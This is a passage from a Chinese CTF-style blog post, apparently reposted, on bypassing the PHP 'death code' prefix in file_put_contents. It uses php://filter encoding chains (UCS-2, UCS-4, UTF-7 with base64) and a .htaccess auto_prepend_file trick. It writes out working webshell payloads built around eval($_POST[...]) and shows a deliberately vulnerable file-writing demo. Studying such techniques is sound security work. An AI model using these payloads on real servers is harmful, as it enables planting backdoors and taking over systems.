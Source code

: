 ![1233.png](https://i.loli.net/2020/12/04/HZ4ScB3Nv81otGu.png)

可以发现，用rot13成功写入，不过仍然存在短标签的问题。

#### 利用usc-2

通过usc-2编码，两位一反转。

`?content=php://filter/convert.iconv.UCS-2LE.UCS-2BE|?<hp%20pe@av(l_$OPTSs[m1lp]e;)>?/resource=9.php`

![12.png](https://i.loli.net/2020/12/04/P8xZ2qKNeO9Qwob.png)

可以看到成功写入，并且将前面的死亡代码糅杂消失。

#### 利用usc-4

和usc-2原理基本一致，不过这里是四位一反转。

`?content=php://filter/convert.iconv.UCS-4LE.UCS-4BE|hp?<e@%20p(lavOP_$s[TS]pm1>?;)/resource=10.php`

#### utf-8、utf-7转换

测试发现：

![13.png](https://i.loli.net/2020/12/04/FZmGyCQb5MfnAvO.png)

等号经过`utf-7`编码后会变成 +AD0- ，这样就可以消除等号的影响。并且：

![14.png](https://i.loli.net/2020/12/04/uWVSQyApnEH58hF.png)

纯字符经过 `utf-7` 编码 ，和原来不会有太大区别，所以可以结合 utf7和base64解码来写马

`?content=php://filter/write=PD9waHAgQGV2YWwoJF9QT1NUWydhJ10pOz8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=10.php`

本地可以看到已经成功写入：

![123.png](https://i.loli.net/2020/12/06/CYKxaU7HFZM2diz.png)

### demo3

```php
<?php
 highlight_file(__FILE__);
 $filename=$_GET['filename'];
 $content=$_GET['content'];
 file_put_contents($filename,$content . "\nxxxxxx");
?>
```

其实可以直接写 `?content=<?php phpinfo();?>` 但其实题目一般都会有过滤，可能是过滤掉 起始符号 <? ，这个时候我们可以利用 `.htaccess`

但是 `.htaccess` 文件，对内容要求很严格，多余冗杂的代码会导致文件失效和错误。所以我们考虑注释符。

s1mple师傅的payload:

`?filename=.htaccess&content=php_value%20auto_prepend_file%20D:\phpStudy\PHPTutorial\WWW\flag.php%0a%23\`

我自己本地测试发现，在windows下不能使那个换行无效...，而在linux下似乎也不可行。后面有人如果能复现或者自己有思路可以绕过去的，欢迎与我讨论~

参考链接：

`https://xz.aliyun.com/t/8163#toc-2`









[转自Myon9s大佬的博客]: http://myangswhitehat.cn/	"http://myangswhitehat.cn/"